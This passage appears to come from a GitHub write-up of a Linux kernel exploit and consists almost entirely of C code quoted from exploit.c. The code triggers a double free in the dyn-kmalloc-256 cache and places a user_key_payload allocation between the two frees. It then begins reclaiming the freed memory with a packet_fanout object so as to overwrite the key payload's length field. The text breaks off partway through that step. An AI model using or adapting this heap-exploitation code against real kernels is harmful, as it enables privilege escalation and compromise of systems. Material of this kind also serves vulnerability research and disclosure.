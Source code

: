 ```c
int dyn_kmalloc_256_double_free_fsfd = prepare_double_free(DYN_KMALLOC_256);
if (dyn_kmalloc_256_double_free_fsfd < 0)
  goto err;

get_full_timesplice();
trigger_first_free(dyn_kmalloc_256_double_free_fsfd);

char tmp[256] = {};
key_serial_t key = user_key_payload_alloc(
  "dyn_kmalloc_256",
  tmp,
  DYN_KMALLOC_192 + 1 - USER_KEY_PAYLOAD_STRUCT_SIZE);

if (key < 0)
  goto err;

get_full_timesplice();
trigger_second_free(dyn_kmalloc_256_double_free_fsfd);
```

- [exploit.c#L273](./exploit.c#L273):

```c
key_serial_t user_key_payload_alloc(const char *desc, void *data, int n)
{
  key_serial_t key = add_key("user", desc, data, n, KEY_SPEC_USER_KEYRING);
  if (key < 0) {
    perror("add_key");
    return -1;
  }

  return key;
}
```

- [exploit.c#L30](./exploit.c#L30):

```c
#define DYN_KMALLOC_192 192
```

- [exploit.c#L37](./exploit.c#L37):

```c
#define USER_KEY_PAYLOAD_STRUCT_SIZE 24
```

### Step3.3: Reclaim with `struct packet_fanout` object

- [exploit.c#L367](./exploit.c#L367):

```c
if (!packet_fanout_alloc(packet_socket_fd, overwrite_user_key_payload_datalen, 1))
  goto err1;
```
